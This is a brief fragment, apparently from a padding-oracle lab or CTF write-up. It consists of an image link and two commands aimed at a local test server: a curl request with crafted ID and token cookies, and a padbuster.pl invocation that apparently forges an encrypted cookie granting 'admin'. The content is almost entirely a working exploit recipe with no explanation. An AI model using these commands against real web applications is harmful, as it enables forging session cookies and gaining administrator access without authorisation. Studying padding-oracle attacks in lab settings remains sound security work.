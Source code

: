 curl -v -H "Cookie: ID=AAAAAAAAAAAAAAAAAAAAAA==; token=gKENdsXk8OgGoDrSp/JXEQ==" http://localhost:8085/index.php
./padbuster.pl http://localhost:8085/index.php AAAAAAAAAAAAAAAAAAAAAA== 16 -noiv admin -cookies ID=AAAAAAAAAAAAAAAAAAAAAA==;token=AAAAAAAAAAAAAAAAAAAAAA== -encoding 0 -error ERROR!
